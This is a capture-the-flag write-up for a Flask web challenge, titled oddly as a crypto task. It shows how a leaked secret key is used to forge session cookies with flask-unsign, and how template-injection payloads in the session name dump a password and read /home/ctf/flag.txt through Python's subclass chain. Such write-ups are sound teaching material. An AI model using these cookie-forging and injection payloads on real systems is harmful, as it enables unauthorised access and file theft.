 # PseudoRandom | *Crypto*

## The task
![Screenshot of the task](/tenable_ctf_2023/rose/imgs/Task.png)
So the task is to gain access to the /home/ctf/flag.txt file from on the server. To do this we have access to the server and a .zip file containing some flask source code.

## The process
Lets start with the source code and see if there is anything that stands out.
```
#@main.route('/signup')
#def signup():
#    return render_template('signup.html')
```
As the task said the signups have been closed so looks like were going to need to find an accound to use. lets see how its logging us in.
```
@main.route('/', methods=['POST'])
def login_post():
    email = request.form.get('email')
    password = request.form.get('password')
    remember = True if request.form.get('remember') else False

    user = User.query.filter_by(email=email).first()

    if not user or not check_password_hash(user.password, password): 
        flash('Please check your login details and try again.')
        return redirect(url_for('main.index'))

    login_user(user, remember=remember)
    session["name"] = current_user.name
    return redirect(url_for('main.dashboard'))

```
So its making use of some of the flask-login functions to check passwords but also using some sql filter queries to check the first email it finds. This could potentially have some SQL injection avenues. Also note that if it is sucessfull the user is given a session cookie with "name" of their username and redirected.

After a bit more looking arround we find a silver bullet in the \_\_init\_\_.py file. `app.config['SECRET_KEY'] = 'SuperDuperSecureSecretKey1234!'`. Theres no way that they kept that in the live build right? Only one way to see...

## The code
We start by checking if we can sign our own cookie with the known secret key using flask-unsign.
> To help with making it more legiable I tend to use env variable to store the token and cookie values.
```
cookie="{'This is a test': True }"

flask-unsign --sign --cookie $cookie --secret SuperDuperSecureSecretKey1234!
```
this returns a cookie: `eyJUaGlzIGlzIGEgdGVzdCI6dHJ1ZX0.ZNYe-Q.nTYQwxeQPwoUIe7Ifjzdx6OfZzk`. We are going to take this cookie and add it to our login attempt. To do this first press the login butto with no inputs to recieve a cookie then click on the value and change it to the new cookie.
![adding session token / cookie](/tenable_ctf_2023/rose/imgs/add_session_cookie.png)
> Remember this process, we will be doing it a few more times

Once you login this time you will see that the cookie changes, copy the new cookie and run a decode on it:
```
token=eyJUaGlzIGlzIGEgdGVzdCI6dHJ1ZSwiX2ZyZXNoIjpmYWxzZX0.ZNYfbA.7PNA_FIKilkowUX7YLQVaV7eDMI

flask-unsign --decode --cookie $token  
```
This returns: `{'This is a test': True, '_fresh': False}`

Success it looks like they kept the secret key the same, not so *'SuperDuperSecure'* afterall. Now we can see if we can login to the dashboard. To do this we go back to the source code and flask-login docs to see what we need to login.
```
if("name" in session.keys()):
    return redirect(url_for('main.dashboard'))
...

@main.route('/dashboard')
@login_required
...

@login_manager.user_loader
def load_user(user_id):
    return User.query.get(int(user_id))
```
Through this we find that we need to have `"name"` in the session and meet the @login_required criteria, luckily its all documented and all we need is `is_authenicated` to be true and a valid `user_id`. Luckily for that it doesn't need to match the name so since there must be at least 1 user, 1 should work fine. Therfore our new cookie is: `cookie="{'is_authenticated': True, '_user_id': '1', 'name': 'test'}"`

Once we run that through the flask-unsign process again and hit login we gain access to the dashboard.
![were in to the dashboard](/tenable_ctf_2023/rose/imgs/were_in.png)
So what now? looks like the dashboard is also the same as our source and in dev with no sign of the /home/ctf/flag.txt file. To start lets look at the dashboard code.
```
def dashboard():
    template = '''
{% extends "base.html" %} {% block content %}
<h1 class="title">
    Welcome, '''+ session["name"] +'''!
</h1>
<p> The dashboard feature is currently under construction! </p>
{% endblock %}
'''
    return render_template_string(template)
```
Thats odd, its not a templated page but rather it renders the template string which just so happens to include our session["name"]. From here we can run some tests and see if we can get the name from the actuall current user but adding our own flask {{ }} statements in the name.

`cookie="{'is_authenticated': True, '_user_id': '1', 'name': 'Name: {{ current_user.name }} PASS: {{ current_user.password }}'}"`

![name and pass extraction](/tenable_ctf_2023/rose/imgs/name_and_pass.png)

Well that seems promising, sadly however we don't have much use for the username and password as we already see the dashboard. But what other variables can we print? Well with a bit of help from google I found a way to reference classes through the use of ``.\_\_class\_\_`` , ``.\_\_base\_\_`` and ``.\_\_subclasses\_\_()`` calls in python.

We slowly step through each phase to try and reach the `\_io.FileIO` / file.read() class. Each time getting a new cookie and refreshing the page starting with:
```
cookie="{'is_authenticated': True, '_user_id': '1', 'name': 'TEST: {{ current_user.name.__class__.__base__.__subclasses__() }}'}"
```
which returns: 
```
[<... <class '_thread.RLock'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_io._IOBase'>,...]

```
And we keep searching untill:
```
cookie="{'is_authenticated': True, '_user_id': '1', 'name': 'TEST: {{ current_user.name.__class__.__base__.__subclasses__()[111].__subclasses__()[0].__subclasses__() }}'}"
```
which finally gives use the `\_io.FileIO` class

From there we simply add the path of the file and .read() it.
```
cookie="{'is_authenticated': True, '_user_id': '1', 'name': 'TEST: {{ current_user.name.__class__.__base__.__subclasses__()[111].__subclasses__()[0].__subclasses__()[0](\'/home/ctf/flag.txt\').read() }}'}"

```
![flag has been found](/tenable_ctf_2023/rose/imgs/flag_found.png)
And there you go, the flag `flag{wh4ts_1n_a_n4m3_4nd_wh4ts_in_y0ur_fl4sk}` has been found.